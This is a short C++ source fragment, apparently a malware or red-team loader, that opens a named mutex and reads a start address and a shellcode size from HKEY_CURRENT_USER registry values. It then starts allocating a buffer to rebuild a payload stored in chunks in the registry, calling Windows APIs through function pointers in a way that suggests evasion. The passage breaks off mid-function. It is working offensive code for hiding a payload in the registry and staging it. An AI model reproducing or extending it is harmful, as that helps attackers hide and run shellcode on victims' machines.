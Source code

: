 ```cpp
    HANDLE mutex = OpenMutexFunc(MUTEX_ALL_ACCESS, TRUE, (LPCWSTR)mutexName);
    if (mutex == NULL) {
#ifndef IGNORE_MUTEX
        return EXIT_FAILURE;
#endif
    }

    LONG result;

    ULONG64 startAddress = 0;
    DWORD dwSize = sizeof(startAddress);

#ifdef _DEBUG
    printfFunc("Calling `RegOpenKey`\n");
#endif
    result = RegOpenKeyFunc(HKEY_CURRENT_USER, (LPCWSTR)regKey, &hKey);
    if (result != ERROR_SUCCESS) {
#ifdef _DEBUG
        printfFunc("Key not found.\n");
#endif
    }

#ifdef _DEBUG
    printfFunc("Calling `RegGetValue`\n");
#endif

    value = (LPCTSTR)saValue;
    if (RegGetValueFunc(hKey, NULL, value, RRF_RT_QWORD, NULL, &startAddress, &dwSize) == ERROR_SUCCESS) {
        if (0 == startAddress) {
            return EXIT_FAILURE;
        }
    }

#ifdef _DEBUG
    printfFunc("Using start address: 0x%llx\n", startAddress);
#endif

    UINT shellcodeSize = 0;
    dwSize = sizeof(shellcodeSize);
    value = (LPCTSTR)sbValue;
    result = RegGetValueFunc(hKey, NULL, value, RRF_RT_DWORD, NULL, &shellcodeSize, &dwSize);
    if (ERROR_SUCCESS != result || 0 == shellcodeSize) {
        return EXIT_FAILURE;
    }

#ifdef _DEBUG
    printfFunc("N bytes to restore: %u\n", shellcodeSize);
#endif

#ifdef USE_REGISTRY_FOR_DLL

    cbBuf = (UCHAR*)mallocFunc(shellcodeSize * sizeof(UCHAR));
    if (NULL == cbBuf) {
        return EXIT_FAILURE;
    }
    memsetFunc(cbBuf, 0, shellcodeSize);

    UINT nChunks = 0;
    UINT remainingBytes = shellcodeSize;
    UINT copyingNow = CHUNKSIZE;
    value = (LPCTSTR)nChunksValue;

```